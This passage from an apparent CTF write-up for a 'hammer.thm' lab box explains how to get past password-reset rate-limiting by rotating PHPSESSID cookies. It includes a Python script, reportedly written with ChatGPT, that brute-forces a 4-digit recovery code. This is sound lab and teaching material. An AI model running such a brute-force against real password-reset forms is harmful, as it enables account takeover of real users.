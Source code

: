 However, we are required to enter a 4-digit code within the provided time to proceed.
![bce5bc0b2e9386fc8fb6cf59fa689de0.png](bce5bc0b2e9386fc8fb6cf59fa689de0.png){: w="400" h="300" .center}

This should be easy to brute force with Burp's Intruder. But unfortunately for us, there is rate-limiting in place.
![e854a81322266532be89c3f870b122ca.png](e854a81322266532be89c3f870b122ca.png){: w="400" h="300" .center}

> There are actually two ways to bypass this rate-limit. There is an intended way and there is how I bypassed it. Let's first see how I did it, and then I'll show you how you can bypass it with the intented way.
{: .prompt-info}

### Rate-Limit Bypass
I was stuck at this point and was trying different things. I thought to myself, what if the code doesn't change when you make new password-reset requests? This would certainly make it easy to bypass the rate-limit like so:

1. We can make an initial request with a random `PHPSESSID` to reset `tester@hammer.thm`'s password.
2. We use **the same** `PHPSESSID` to try to brute-force the 4-digit code 3 times or so
3. Then we make **another reset-password** request with **a new** `PHPSESSID`
4. We then use **this new** `PHPSESSID` to brute-force the 4-digit code 3 times or so
5. We continue this cycle until the 4 digit code is found.

To save time, I used the help of our good friend **ChatGPT** to write me a python script to achieve this:
```python
import requests

# Set the initial counter value
counter = 0

# URL to which the requests will be made
url = "http://hammer.thm:1337/reset_password.php"

# Loop through all possible recovery codes from 1111 to 9999
for digit in range(1111, 10000, 3):
    # Prepare the session cookie with the current counter
    cookies = {'PHPSESSID': str(counter)}

    # First POST request with the email
    data = {'email': 'tester@hammer.thm'}
    response = requests.post(url, cookies=cookies, data=data)
    print(f"Request 1 with counter={counter}, response={response.status_code}")

    # Make 3 POST requests with the incremented recovery code
    for i in range(3):
        current_digit = digit + i
        data = {'recovery_code': str(current_digit), 's': '200'}
        response = requests.post(url, cookies=cookies, data=data)
        print(f"Recovery Request with digit={current_digit}, counter={counter}, response={response.status_code}")

        # Check if the response does not contain 'Invalid or expired recovery code!'
        if "Invalid or expired recovery code!" not in response.text:
            print(f"Success! Valid request found with digit={current_digit} and counter={counter}")
            print(f"Response content: {response.text}")
            # Exit the loop if a valid code is found
            exit()

    # Increment the counter after the three requests
    counter += 1
```
![437576a4adda20fca28681e6c3ebdef7.png](437576a4adda20fca28681e6c3ebdef7.png){: w="400" h="300" .center}